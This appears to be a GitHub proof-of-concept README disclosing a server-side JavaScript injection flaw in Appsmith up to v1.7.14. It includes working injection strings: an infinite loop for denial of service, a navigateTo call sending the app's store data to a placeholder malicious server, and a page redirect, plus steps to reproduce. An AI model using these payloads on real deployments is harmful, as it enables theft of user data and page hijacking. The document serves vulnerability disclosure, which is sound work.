

# Appsmith-Js-Injection-POC

## Vuln Detail
- Vulnerability type: Server side js injection

- Affected product: Appsmith

- Affected version: v1.7.14 and below

An attacker injects a poc into the data loaded by the list in some way, depending on the way in which the application binds the data to the list, for example
1. the attacker saves the POC to the data source via the application
2. the victim accesses the application
3. the application loads the POC data from the data source and binds it to the list component
4. the list component triggers a POC because the `currentItem` property is called in the js code, causing the aspsmith application to perform an unintended behaviour of the user

These unintended behaviours include:

- The victim is unable to use the aspsmith application properly

`'+ (function(){while(1){}})() +'`

- Data leakage. Appsmith disables many js functions, such as the inability to execute xhr functions to initiate requests, which avoids many security issues, however, through this js injection vulnerability, an attacker could call appsmith's built-in function - 'navigateTo' - to send user data to a malicious server in the form of parameters

`'+ navigateTo('http://<malicious_server>', {'q': JSON.stringify(appsmith.store)}, 'NEW_WINDOW') +'`

- Page Hijacking.

`'+ navigateTo('http://<malicious_server>') +'`

Simple demo application:
- live demo: https://app.appsmith.com/app/my-first-application/page1-630ebec37e1d9179c33a1950
- demo application: demo_application/My first application.json

You can reproduce the vulnerability in this way.

1. enter poc in any input component on the right
2. click on the button of the first item in the list on the left

